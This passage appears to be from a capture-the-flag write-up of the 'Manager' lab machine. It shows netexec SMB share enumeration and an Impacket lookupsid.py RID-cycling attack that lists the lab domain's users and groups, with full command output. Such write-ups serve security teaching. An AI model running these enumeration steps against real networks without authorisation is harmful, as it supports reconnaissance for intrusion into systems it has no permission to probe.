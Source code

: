 

    oxdf@hacky$ netexec smb 10.10.11.236 
    SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)



I can't enumerate shares with no user, and a bad user does seen to get
some auth, but then can't list shares either:



    oxdf@hacky$ netexec smb 10.10.11.236 --shares
    SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.236    445    DC01             [-] Error getting user: list index out of range
    SMB         10.10.11.236    445    DC01             [-] Error enumerating shares: STATUS_USER_SESSION_DELETED
    oxdf@hacky$ netexec smb 10.10.11.236 --shares -u 0xdf -p 0xdf
    SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.236    445    DC01             [+] manager.htb\0xdf:0xdf 
    SMB         10.10.11.236    445    DC01             [-] Error enumerating shares: STATUS_ACCESS_DENIED



Given that some kind of null auth is allowed here, I can try a RID
cycling attack, by bruteforcing Windows user security identifiers (SIDs)
by incrementing the relative identifier (RID) part. The
[Impacket](https://github.com/SecureAuthCorp/impacket) script
`loopupside.py` will do this nicely:


    oxdf@hacky$ lookupsid.py 0xdf@manager.htb -no-pass
    Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra

    [*] Brute forcing SIDs at manager.htb
    [*] StringBinding ncacn_np:manager.htb[\pipe\lsarpc]
    [*] Domain SID is: S-1-5-21-4078382237-1492182817-2568127209
    498: MANAGER\Enterprise Read-only Domain Controllers (SidTypeGroup)
    500: MANAGER\Administrator (SidTypeUser)
    501: MANAGER\Guest (SidTypeUser)
    502: MANAGER\krbtgt (SidTypeUser)
    512: MANAGER\Domain Admins (SidTypeGroup)
    513: MANAGER\Domain Users (SidTypeGroup)
    514: MANAGER\Domain Guests (SidTypeGroup)
    515: MANAGER\Domain Computers (SidTypeGroup)
    516: MANAGER\Domain Controllers (SidTypeGroup)
    517: MANAGER\Cert Publishers (SidTypeAlias)
    518: MANAGER\Schema Admins (SidTypeGroup)
    519: MANAGER\Enterprise Admins (SidTypeGroup)
    520: MANAGER\Group Policy Creator Owners (SidTypeGroup)
    521: MANAGER\Read-only Domain Controllers (SidTypeGroup)
    522: MANAGER\Cloneable Domain Controllers (SidTypeGroup)
    525: MANAGER\Protected Users (SidTypeGroup)
    526: MANAGER\Key Admins (SidTypeGroup)
    527: MANAGER\Enterprise Key Admins (SidTypeGroup)
    553: MANAGER\RAS and IAS Servers (SidTypeAlias)
    571: MANAGER\Allowed RODC Password Replication Group (SidTypeAlias)
    572: MANAGER\Denied RODC Password Replication Group (SidTypeAlias)
    1000: MANAGER\DC01$ (SidTypeUser)
    1101: MANAGER\DnsAdmins (SidTypeAlias)
    1102: MANAGER\DnsUpdateProxy (SidTypeGroup)
    1103: MANAGER\SQLServer2005SQLBrowserUser$DC01 (SidTypeAlias)
    1113: MANAGER\Zhong (SidTypeUser)
    1114: MANAGER\Cheng (SidTypeUser)
    1115: MANAGER\Ryan (SidTypeUser)
    1116: MANAGER\Raven (SidTypeUser)